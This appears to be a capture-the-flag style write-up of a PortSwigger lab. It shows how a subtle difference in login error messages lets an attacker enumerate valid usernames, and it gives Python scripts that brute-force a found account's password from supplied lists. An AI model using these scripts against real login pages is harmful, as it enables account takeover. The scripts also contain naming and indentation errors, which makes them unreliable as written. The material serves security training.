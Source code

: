 # Lab-2: Username enumeration via subtly different responses
> Raj Pastagiya | 16/11/2023

## Problem Statement

> This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, the usernames list and password list is given. 
> To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

### Summary
- The issue with authentication lies here in different responses which are subtly different for valid usernames and passwords.
	- The web-application gives "Invalid username or password." as response for the users that are not part of the web-application, which enables enumerating valid usernames
	- The web-application gives "Invalid username or password" as response for valid users and wrong password, which enables brute-forcing passwords for valid usernames
		- **NOTICE that "." is not there in the invalid password response**
#### Looking at the site's response on Login Page
- Giving a potential username:password on the login page as "admin:admin" gives us response shown in below screenshot, which indicates that if we are not a valid user or if we have not supplied valid password then "Invalid username or password." will come as response message
![Invalid Username as Response](./images/01-invalid-user.png)

- Based on this, let's create a simple python script which will use the list of usernames given to us and see if we find any usernames for which this message doesn't come. Thje **stress** here should be **_EXACT SAME RESPONSE_**
	- Here the login request is POST with request payload as:
```
username: "admin"
password: "admin"
```
- We will use "requests" module to send HTTP requests, and then if we don't find "Invalid Username" in response text message then we can be sure that the username entered there might be a valid user. The script looks like below:
```python
#!/usr/bin/python3
#
#
# Imports here

# List of usernames to enumerate.
users = list()

# Read users.lst and store it in a list to be used further
with open("./users.lst", "rt") as userslst:
	for user in userslst.readlines():
		users.append(user.strip())

# request body in dictionary
payload = {"username": "admin", "password": "admin"}

url="https://0a1500fa046ab4f880c3440600630046.web-security-academy.net/login"

validUsers = list()

for user in users:

	print("[*] Trying username", user, sep=": ")
	payload["username"] = user # change the placeholder os username field to the user from users list
	# Send the HTTP POST request to the url
	response = requests.post(url, data=payload, verify=False)
	# check if the "Invalid username" is in the response, if not then valid username
	if "Invalid username or password." not in response.text:
		print("\t[+] Found valid username", user, sep=": ")
		validUSers.append(user)

print("\n\n[*] Valid Users", validUsers, sep=": ")
```

- Fortunately above script will give us a valid username for which it if invalid password is given then a different response message is given.
- Now if we try with the username found by the script, we see a different message saying "Invalid username or password" like shown in below screenshot:
![](./images/02-invalid-password.png)

- Here "." is missing from the response, which is very subtle and will provide opportunity for us to bruteforce the password
- Now we can append to above script and use the found usernames to bruteforce the password based on password list we were given.
- In below script to make the script more easier to understand I have made functions for every requirements. Also the "user_enum()" function is same as the script shared above
```python
#!/usr/bin/python3
#
#
# Imports here

# request body in dictionary
payload = {"username": "admin", "password": "admin"}

url="https://0a1500fa046ab4f880c3440600630046.web-security-academy.net/login"

# List of usernames to enumerate.
def user_enum():
	# user enumeration script here
	
	return validUsers

def enum_password(validUsers):
	# List of passwords to enumerate.
	passwords = list()

	# Read passwords.lst and store it in a list to be used further
	with open("./passwords.lst", "rt") as passlst:
		for password in passlst.readlines():
			 passwords.append(password.strip())

for user in validUsers:
	payload["username"] = user # change the placeholder of username field to the user from users list
	for password in passwords:
		payload["password"] = password # change the placeholder of password field to the password from passwords list
		# Send the HTTP POST request to the url
		 response = requests.post(url, data=payload, verify=False)
		# check if the "Invalid password" is in the response, if not then valid password
		if "Invalid username or password" not in response.text:
			print(f"\t[+] Found valid username:password pair {user}:{password}")
			break

enum_password(enum_users())
```

#### \[+] The script is available at [brute-force.py](./scripts/brute-force.py)





